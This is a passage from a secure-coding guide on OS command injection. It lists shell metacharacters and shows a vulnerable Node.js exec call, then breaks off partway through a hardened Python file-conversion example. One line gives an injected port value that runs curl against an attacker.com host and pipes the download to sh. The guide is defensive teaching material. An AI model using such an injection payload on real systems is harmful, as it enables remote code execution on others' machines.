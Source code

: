 #### OS-Specific Metacharacters
```bash
# Unix/Linux
; | && || ` $() \n

# Windows cmd.exe
& | && || ^ %var%

# PowerShell
; | && || $() `
```

#### Advanced Techniques
According to [NodeJS Security](https://www.nodejs-security.com/blog/command-injection-vulnerability-codehooks-mcp-server-security-analysis), the Codehooks MCP Server vulnerability demonstrates a typical pattern:

```javascript
// Vulnerable implementation
const command = `lsof -i :${port}`;
exec(command, (error, stdout, stderr) => {
  // Process output
});

// Attack: port = "8080; curl http://attacker.com/shell.sh | sh"
```

### Secure Code Examples

#### Python - Production-Grade Input Validation
```python
import os
import re
import subprocess
from pathlib import Path

BASE = Path("/app/uploads").resolve()

def sanitize_filename(name: str) -> str:
    """Only allow simple basenames: no slashes, no leading dot, no leading dash"""
    if not re.fullmatch(r"[A-Za-z0-9][A-Za-z0-9._-]{0,127}", name):
        raise ValueError("Invalid filename")
    return name

def materialize_under_base(name: str) -> Path:
    """Ensure path stays within BASE directory"""
    p = (BASE / sanitize_filename(name)).resolve()
    if not str(p).startswith(str(BASE) + os.sep):
        raise ValueError("Path escape attempt")
    return p

def convert_to_pdf(user_name: str, out_name: str = "output.pdf") -> None:
    """Securely convert file to PDF"""
    src = materialize_under_base(user_name)
    out = (BASE / sanitize_filename(out_name)).resolve()

    # Linux: defend against symlink swaps with O_NOFOLLOW
    fd = os.open(str(src), os.O_RDONLY | getattr(os, "O_NOFOLLOW", 0))
    try:
        src_fd_path = f"/proc/self/fd/{fd}"  # Linux-specific
        env = {"PATH": "/usr/bin:/bin"}      # Minimal, fixed PATH
        # Note: convert.exe on Windows is a filesystem tool, not ImageMagick
        subprocess.run(
            ["/usr/bin/magick", src_fd_path, str(out)],
```